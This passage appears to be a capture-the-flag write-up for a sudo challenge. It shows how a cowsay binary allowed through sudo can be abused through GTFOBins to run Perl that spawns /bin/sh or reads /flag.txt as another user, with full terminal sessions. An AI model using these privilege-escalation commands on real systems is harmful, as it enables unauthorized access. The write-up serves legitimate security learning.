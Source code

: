 This unfortunatly leads us to nothing, since is is executed with rights of `ctf` and not `ctf-cracked`

But when we check from the tag of the challenge `gtfobins` :

 - GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems. 

And when typing `cowsay` in search bar, we find the follwing : https://gtfobins.github.io/gtfobins/cowsay/ . So, we find out that `cowsay` command can **execute perl scripts.**

Knowing that `cowsay` can execute `perl` scripts with `-f` option, we can simply just pass it some script for opnning a shell or read a file :

```
ctf@sudo-3-f7977884c-g2sg4:~$ TF=$(mktemp)
ctf@sudo-3-f7977884c-g2sg4:~$ echo 'exec "cat /flag.txt";' >$TF
ctf@sudo-3-f7977884c-g2sg4:~$ sudo -u ctf-cracked  /usr/games/cowsay -f $TF x
 ___
< x >
 ---
```

Or :

```
ctf@sudo-3-f7977884c-g2sg4:~$ TF=$(mktemp)
ctf@sudo-3-f7977884c-g2sg4:~$ echo 'exec "/bin/sh";' >$TF
ctf@sudo-3-f7977884c-g2sg4:~$ sudo -u ctf-cracked  /usr/games/cowsay -f $TF x
 ___
< x >
 ---
```

Or :

```
ctf@sudo-3-f7977884c-g2sg4:~$ TF=$(mktemp)
ctf@sudo-3-f7977884c-g2sg4:~$ tee > $TF
#!/bin/perl
exec "/bin/sh";

^C
ctf@sudo-3-f7977884c-g2sg4:~$ sudo -u ctf-cracked  /usr/games/cowsay -f $TF x
 ___
< x >
 ---
ctf@sudo-3-f7977884c-g2sg4:~$ echo $TF
/tmp/tmp.Vu2i4wDJcF
ctf@sudo-3-f7977884c-g2sg4:~$ cat $TF
#!/bin/perl
exec "/bin/sh";
```

But unfortunatly, this won't work. Let's try with a manually created file :


```
ctf@sudo-3-f7977884c-g2sg4:~$ tee > /tmp/script
#!/bin/perl
exec "/bin/sh";
^C
ctf@sudo-3-f7977884c-g2sg4:~$ cat /tmp/script
#!/bin/perl
exec "/bin/sh";
ctf@sudo-3-f7977884c-g2sg4:~$ sudo -u ctf-cracked  /usr/games/cowsay -f /tmp/script
[sudo] password for ctf: 
^C
ctf@sudo-3-f7977884c-g2sg4:~$ sudo -u ctf-cracked  /usr/games/cowsay -f /tmp/script Hello
$ cat /flag.txt
```